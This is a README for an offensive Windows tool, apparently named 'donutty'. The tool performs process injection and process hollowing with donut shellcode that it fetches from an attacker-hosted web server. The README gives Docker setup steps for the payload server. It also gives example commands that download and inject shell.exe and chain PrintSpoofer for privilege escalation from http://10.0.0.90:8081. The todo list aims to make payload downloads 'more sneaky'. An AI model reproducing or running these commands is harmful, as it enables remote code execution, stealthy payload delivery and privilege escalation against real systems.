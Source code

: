 Process Injection/Hollowing via donut shellcode hosted on a web server.

Installation Directions:
<br>
1. Download the executable, dockerfile, server script, and setup script
2. Place the dockerfile and setup script in the same directory. Place the server script in ./serv/ and whatever exes you want in ./exe
3. build the image `docker build -t donutimg` and run it while port forwarding 8081 `docker run -p 8081:8081 donutimg`
4. Run the exe
<br>
Credit to 3xpl01tc0d3r, https://github.com/3xpl01tc0d3r for Process Hollowing
<br>
Todo:
<br>
[-] Make deployment easier
<br>
[-] Test other .NET executables
<br>
[-] Figure a fix to python/go or any way to not have to utilize wine 
<br>
[-] Add an option to select process by name and automatically inject (for process injection)
<br>
[-] Implement SSL to make payload download more sneaky?

Examples:
<br>
`donutty.exe /m:1 /f:shell.exe /url:http://10.0.0.90:8081 /pid:1`
<br>
`donutty.exe /m:2 /f:PrintSpoofer.exe /url:http://10.0.0.90:8081 /p:"-c \"\\donutty.exe /m:2 /f:shell.exe /url:http://10.0.0.90:8081 /b:\"C:\windows\system32\cmd.exe\" " /b:"C:\windows\system32\cmd.exe"`
*note if using an exe that has quotes in its own args, like printspoofer: you have to escape the quotes within like above. same with calling from path
